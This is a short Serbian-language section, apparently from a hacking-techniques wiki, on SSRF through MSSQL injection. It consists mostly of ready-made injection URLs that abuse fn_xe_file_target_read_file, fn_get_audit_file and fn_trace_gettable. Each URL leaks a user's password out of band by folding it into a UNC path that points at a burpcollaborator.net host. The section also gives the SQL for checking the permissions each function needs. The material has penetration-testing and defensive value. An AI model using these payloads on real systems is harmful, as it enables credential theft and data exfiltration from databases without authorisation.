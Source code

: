 ![](https://swarm.ptsecurity.com/wp-content/uploads/2020/11/6.png)

### SSRF

Ove trikove za SSRF [preuzeti su odavde](https://swarm.ptsecurity.com/advanced-mssql-injection-tricks/)

#### `fn_xe_file_target_read_file`

Zahteva dozvolu **`VIEW SERVER STATE`** na serveru.

```
https://vuln.app/getItem?id= 1+and+exists(select+*+from+fn_xe_file_target_read_file('C:\*.xel','\\'%2b(select+pass+from+users+where+id=1)%2b'.064edw6l0h153w39ricodvyzuq0ood.burpcollaborator.net\1.xem',null,null))
```

```sql
# Check if you have it
SELECT * FROM fn_my_permissions(NULL, 'SERVER') WHERE permission_name='VIEW SERVER STATE';
# Or doing
Use master;
EXEC sp_helprotect 'fn_xe_file_target_read_file';
```

#### `fn_get_audit_file`

Zahteva dozvolu **`CONTROL SERVER`**.

```
https://vuln.app/getItem?id= 1%2b(select+1+where+exists(select+*+from+fn_get_audit_file('\\'%2b(select+pass+from+users+where+id=1)%2b'.x53bct5ize022t26qfblcsxwtnzhn6.burpcollaborator.net\',default,default)))
```

```sql
# Check if you have it
SELECT * FROM fn_my_permissions(NULL, 'SERVER') WHERE permission_name='CONTROL SERVER';
# Or doing
Use master;
EXEC sp_helprotect 'fn_get_audit_file';
```

#### `fn_trace_gettabe`

Zahteva dozvolu **`CONTROL SERVER`**.

```
https://vuln.app/ getItem?id=1+and+exists(select+*+from+fn_trace_gettable('\\'%2b(select+pass+from+users+where+id=1)%2b'.ng71njg8a4bsdjdw15mbni8m4da6yv.burpcollaborator.net\1.trc',default))
```

```sql
# Check if you have it
SELECT * FROM fn_my_permissions(NULL, 'SERVER') WHERE permission_name='CONTROL SERVER';
# Or doing
Use master;
EXEC sp_helprotect 'fn_trace_gettabe';
```
